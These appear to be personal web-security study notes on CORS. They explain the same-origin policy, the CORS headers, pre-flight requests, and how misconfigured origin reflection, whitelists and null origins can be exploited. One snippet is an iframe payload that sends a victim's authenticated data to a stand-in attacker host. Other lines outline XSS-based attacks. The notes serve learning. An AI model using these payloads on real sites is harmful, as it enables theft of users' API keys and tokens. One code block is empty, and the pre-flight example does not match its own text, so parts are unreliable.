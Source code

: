 - browser mechanism that enables controlled access to resources located outside of a given domain
	- adds flexibility to the same-origin policy 
- **CORS enables servers to define who can access their assets** and **which HTTP request methods are permitted** from external sources.
- potential for cross-domain attacks
# Same-Origin Policy 
- **server requesting** a resource and the server hosting the **resource** must share from the same protocol, domain name and port 
	![[Screenshot 2024-05-29 at 9.57.18 AM.png]]
# `Access-Control-Allow-Origin` Header
- identifies the permitted origin of the request
1. following cross-domain request from `normal-website.com`
	```
	GET /data HTTP/1.1
	Host: robust-website.com
	Origin : https://normal-website.com
	```
2. the server on `robust-website.com` returns the following response:
	```
	HTTP/1.1 200 OK
	...
	Access-Control-Allow-Origin: https://normal-website.com
	```
- cannot use the wildcard `*` with cross-origin transfer of credentials
# `Access-Control-Allow-Credentials` Header
- cross-domain server can permit reading of the response when credentials are passed to it by setting `Access-Control-Allow-Credentials` header to `true`
	- credentials can be cookies, `Authorization` headers etc.
1. if cookies sent with the request:
	```
	GET /data HTTP/1.1
	Host: robust-website.com
	...
	Origin: https://normal-website.com
	Cookie: JSESSIONID=<value>
	```
2. and the response to the request is:
	```
	HTTP/1.1 200 OK
	...
	Access-Control-Allow-Origin: https://normal-website.com
	Access-Control-Allow-Credentials: true
	```
browser will permit the requesting website to read the response as the header is set to `true`
# Pre-Flight Checks
- was added to the CORS specification to protect legacy resources from the expanded request options allowed by CORS
- when initiating a cross-domain request under specific conditions, such as using a **non-standard HTTP method** (anything other than HEAD, GET, POST), introducing new **headers**, or employing a special **Content-Type header value**, a pre-flight request may be required which leverages the `OPTIONS` method
consider the following illustration of a pre-flight request aimed at employing the `PUT` method along with a custom header named `Special-Request-Header`:
```
OPTIONS /info HTTP/1.1
Host: example2.com
...
Origin: https://example.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: Authorization
```
in response, the server might return headers indicating the accepted methods, the allowed origin, and other CORS policy details, as shown below:
```
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Authorization
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```
# Vulnerabilities Arising From CORS Configuration Issues
## Server-Generated ACAO Header From Client-Specified Origin Header
- some applications take the easy route of effectively allowing access to any other domain
	- one way this is done is my reading the `Origin` header from requests and reflecting in the ACAO header which indicates that the requesting origin is allowed
1. if an application receives the following request:
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
2. it then responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```
- the response indicates that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin request can include credentials, so it will be processed
- this means that any domain can access resources from the vulnerable domain - if the response contains sensitive information (API key or CSRF token), can retrieve by placing the following script in your website:
```html
file
```
Lab: [[CORS vulnerability with basic origin reflection]]
# Error Parsing Origin Headers
- some applications use a whitelist of allowed origins 
	- when a CORS request is received, the supplied origin is compared to the whitelist 
	- if the origin appears in the whitelist it is reflected in the ACAO header
- can have misconfigurations in whitelists
- for example, suppose an application grants access to all domains ending in:
	`normal-website.com`
- an attacker might be able to gain access by registering the domain:
	`hackersnormal-website.com`
- alternatively, suppose an application grants access to all domains beginning with
	`normal-website.com`
- an attacker might be able to gain access using the domain:
	`normal-website.com.evil-user.net`
## Whitelisted `null` Origin Value
1. some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:
	```
	GET /sensitive-victim-data
	Host: vulnerable-website.com
	Origin: null
	```
2. and the server responds with:
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: null
	Access-Control-Allow-Credentials: true
	```
3. attacker can generate various tricks to generate CORS containing `null`
	- can use `iframe`:
		```html
		<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','vulnerable-website.com/sensitive-victim-data',true);
		req.withCredentials = true;
		req.send();
		
		function reqListener() {
		location='malicious-website.com/log?key='+this.responseText;
		};
		</script>"></iframe>
		```
		- the above script generates a `null` origin header to allow the request to go through
# Exploiting XSS Via CORS Trust Relationships
- if website trusts origin that is vulnerable to XSS, then attacker can exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive info 
1. given the following request:
	```
	GET /api/requestApiKey HTTP/1.1
	Host: vulnerable-website.com
	Origin: https://subdomain.vulnerable-website.com
	Cookie: sessionid=...
	```
2. if the server responds with:
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
	Access-Control-Allow-Credentials: true
	```
3. then an attacker who finds an XSS vulnerability on subdomain.vulnerable-website.com could use that to retrieve the API key, using a URL like:
	`https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`
	![[Screenshot 2024-05-29 at 6.09.46 PM.png]]
# Breaking TLS With Poorly Configured CORS 
	![[Screenshot 2024-05-29 at 6.09.25 PM.png]]

